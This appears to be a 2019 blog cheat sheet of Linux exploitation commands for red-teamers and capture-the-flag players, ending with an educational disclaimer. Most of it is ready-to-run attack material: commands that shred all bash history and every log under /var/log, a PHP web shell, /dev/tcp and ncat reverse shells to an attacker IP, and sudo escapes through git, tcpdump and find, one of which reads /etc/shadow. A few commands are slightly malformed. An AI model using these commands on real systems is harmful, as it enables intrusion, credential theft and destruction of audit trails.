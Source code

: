 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
categories:
- Security
author: Kirin Fuji
category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

\- Mac Spoofing -  
```  
ip link set dev eth0 down  
ip link set dev eth0 address <mac>  
ip link set dev eth0 up  
```  

\- Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

\- Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

\- Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

\- PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

\- /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

\- ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

\- Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

\- Perl -  
`perl —e 'exec "/bin/sh";'`  

\- Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

\- Lua -  
`lua: os.execute('/bin/sh')`  

\- Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

\- Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

\- Git -  
`sudo git help status` - then type `!/bin/bash`  

\- Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

\- Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

\- More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  